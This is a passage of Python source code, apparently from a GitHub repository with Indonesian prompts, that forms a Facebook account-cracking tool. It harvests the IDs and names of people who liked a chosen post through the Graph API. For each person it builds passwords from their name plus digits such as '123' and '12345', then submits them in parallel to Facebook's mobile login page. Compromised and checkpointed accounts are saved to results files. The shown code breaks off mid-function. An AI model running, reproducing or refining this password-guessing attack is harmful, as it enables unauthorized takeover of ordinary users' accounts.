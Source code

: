 			loop += 1
		except:
			pass
	p = ThreadPool(30)
	p.map(main, id)
	exit("\n \033[0;97m[\033[0;96m#\033[0;97m] Selesai")

def reaction():
	global token
	try:
		token = open('login.txt', 'r').read()
	except IOError:
		print(' \033[0;97m[\033[0;91m!\033[0;97m] Token Invalid')
		tokenz()
	print("\n \033[0;97m[\033[0;93m*\033[0;97m] Ex :/post/\033[0;92m629986xxxxx\033[0;97m (hanya id post)")
	idt = raw_input(" \033[0;97m[\033[0;92m+\033[0;97m] ID Post : ")
	try:
		pok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+token)
		sp = json.loads(pok.text)
		#print(" \033[0;97m[\033[0;92m+\033[0;97m] Name : "+sp["name"])
	except KeyError:
		exit(' \033[0;97m[\033[0;91m!\033[0;97m] ID Postingan Tidak Ada!')
	r = requests.get("https://graph.facebook.com/"+idt+"/likes?limit=5000&access_token="+token)
	z = json.loads(r.text)
	for i in z["data"]:
		uid = i['id']
		name = i['name']
		id.append(uid+'<=>'+name)
	print(" \033[0;97m[\033[0;93m*\033[0;97m] Total ID  : \033[0;91m"+str(len(id)))
	ask = raw_input("\n \033[0;97m[\033[0;93m?\033[0;97m] Anda ingin menggunakan password manual? Y/t : ")
	if ask == "Y" or ask == "y":
		manual()
	print(" \033[0;97m[\033[0;96m+\033[0;97m] Account \033[0;92mOK\033[0;97m Saved In : results/OK-%s-%s-%s.txt"% (ha, op, ta))
	print(" \033[0;97m[\033[0;96m+\033[0;97m] Account \033[0;93mCP\033[0;97m Saved In : results/CP-%s-%s-%s.txt\n"% (ha, op, ta))
	
	def main(user):
		global loop, token
		pwx = []
		sys.stdout.write(
		      '\r \033[0;97m[%s*\033[0;97m] Cracking %s/%s OK-:%s - CP-:%s ' % (rgb,loop, len(id), len(ok), len(cp))
		); sys.stdout.flush()
		uid,name=user.split("<=>")
		for ss in name.split(" "):
			if len(ss)<3:
				continue
			else:
				if len(ss) == 1 and len(ss) == 2 and len(ss) == 3 and len(ss) == 4 or len(ss) == 5:
					pwx.append(ss+"123")
					pwx.append(ss+"1234")
					pwx.append(ss+"12345")
				else:
					pwx.append(ss+"123")
					pwx.append(ss+"12345")
		try:
			for pw in pwx:
				pw = pw.lower()
				rex = requests.post('https://mbasic.facebook.com/login.php', data={'email': uid, 'pass': pw, 'login': 'submit'}, headers={'user-agent': ua})
				xo = rex.content